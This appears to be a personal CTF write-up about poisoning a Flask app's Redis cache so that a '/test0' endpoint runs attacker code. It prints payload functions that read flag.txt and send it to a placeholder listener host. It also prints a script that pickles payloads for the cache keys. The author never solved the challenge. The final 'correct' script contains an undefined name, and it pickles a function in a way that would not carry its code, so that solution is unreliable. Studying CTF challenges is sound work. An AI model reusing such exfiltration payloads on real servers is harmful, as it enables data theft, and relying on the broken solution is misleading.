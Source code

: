 This is a very interesting challenge relating to cache poisoning! There is a web server that lets you upload file under some title value. The server will then stores the file content inside a redis cache, and the title inputted is the key. Also, there are 30 other open endpoints labeled from `/test0` to `/test30`, which calls a cache function `_test0` (and other numbers for other endpoints) and only returns the text `test` back to us.

Hmmm ... seems like we had to do something which those cache functions? My initial thought was ... maybe we could somehow overwrite those cache functions with our own uploaded content, so the server would execute our code instead and give us flag. But I didn't know the keys for those functions in the cache! Well, I just ran the server locally on my machine :p  and dumped out all the keys in the redis cache whenever I hit those endpoints. And by convention (if not specified) the key for cache function has the form of `flask_cache_view//test0`. Awesome, so I just needed my python function to overwrite the `_test0()` ones. First I just blindly uploaded this python file (and other variations, like not putting the code inside a function) as is:
```
def _test0():
    import requests
    return requests.get('/my/request/listener/host/'+open('flag.txt','r').read())
```

But I got nothing :( After checking it locally, it seemed like I only uploaded text string, not actual python code for the server to execute! Then I looked up on how the cache stores the value, and found the [source code](https://github.com/sh4nks/flask-caching/blob/master/flask_caching/backends/rediscache.py) on GitHub. And I realised I wasn't using the right format, as it uses `pickle` module to serialise input to store into the cache, and deserialise it when reading the value from cache.

I then made my own script to compile my python code, serialise and store it in a file called `test.pyc` as such:
```
import pickle, sys, py_compile

pyc = py_compile.compile(sys.argv[1])
a = open(pyc, 'rb').read()

with open('test.pyc', 'wb') as out:
    out.write(b'!' + pickle.dumps(a))
```

But still it did not execute my code! It still stored my payload as a string ... At this point I did not know what to do, and it felt like I was very close. Since nothing worked, I thought I hit a deadend and stopped. Only to realise after the CTF ended that ... I should have serialised the python function when python runs, not a python file or bytecode file! Something like this:

```
import pickle, sys, py_compile

def _test0():
    import requests
    return requests.get('/my/request/listener/host/'+open('flag.txt','r').read())

with open('test.pyc', 'wb') as out:
    out.write(b'!' + pickle.dumps(_test0_))
```

After uploading the `test.pyc` file with title `flask_cache_view//test0`, we could then visit `/test0` endpoint which should trigger our payload and give us the flag.

Even though we couldn't get the flag, this challenge was really fun, and I got to read on redis for the first time and see how caching works for web server!

